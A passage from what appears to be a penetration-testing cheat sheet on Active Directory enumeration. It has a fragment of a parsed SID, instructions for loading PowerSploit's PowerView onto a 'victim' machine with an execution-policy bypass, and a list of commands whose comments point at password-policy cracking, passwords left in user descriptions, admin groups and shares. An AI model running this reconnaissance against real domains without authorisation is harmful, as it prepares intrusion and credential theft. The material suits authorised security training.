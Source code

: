     Sid:{
        Revision: {1}
        SubAuthorityCount: {5}

        IdentifierAuthority:{
            Value: {b'\x00\x00\x00\x00\x00\x05'}
        }
        SubLen: {20}
        SubAuthority: {b'\x15\x00\x00\x00bY\xecY\x80\xf3\xbb%\xb2r\x8d\x07\x07\x02\x00\x00'}
    }
}

```

## Domain Enumeration: 
### Powerview: 
Download on to Windows Victim Machine:
1. https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

From CMD:
```
powershell -ep bypass 
. .\PowerView.ps1
```
Note: -ep = ExecutionPolicy

this will not show any output, you just have to have faith it is running. or try the follwoing commands.
```
Get-NetDomain
Get-NetDomainController
Get-DomainPolicy                                  # shows the policies
(Get-DomainPolicy)."system access"                # shows the password policy for easier password cracking
Get-NetUser                                       # can pull lots of info depending on size of domain
Get-NetUser | select cn                           # will only pull usernames
Get-NetUser | select samaccountname               # will only pull usernames
Get-NetUser | select description                  # will get descriptions that may have Passwords in them
Get-UserProperty -Properties pwdlastset           # tells when each usesr password was last reset (good if you have pwnd account info)
Get-UserProperty -Properties logoncount           # 0 logons is suspicious and maybe the signs of a honeypot account
Get-UserProperty -Properties badpwdcount          # can show signs of an account that is being brute forced
Get-NetComputer                                   # will list all the computers on the domain
Get-NetComputer -FullData                         # when you want a Tsunami of information 
Get-NetComputer -FullData | select <catagory>     # Example Usage Below
Get-NetComputer -FullData | select OperatinSystem # shows all the Operating Systems on the Domain
Get-NetGroup                                      # list groups
Get-NetGroup -GroupName "Domain Admins"           # will list domain admins group
Get-NetGroup -GroupName *admin*                   # will ist all administrator groups on the domain
Get-NetGroupMember -GroupName "Domain Admins"     # Will list all administrators on the domain
Invoke-ShareFinder                                # shows all files and folders being shared on the network
Get-NetGPO                                        # shows all the Group Policies like disabled SMB signing or disabled defender
Get-NetGPO | select displayname, whenchanged
```
References:
1. https://gist.githubusercontent.com/HarmJ0y/184f9822b195c52dd50c379ed3117993/raw/e5e30c942adb2347917563ef0dafa7054882535a/PowerView-3.0-tricks.ps1

### Bloodhound: 
```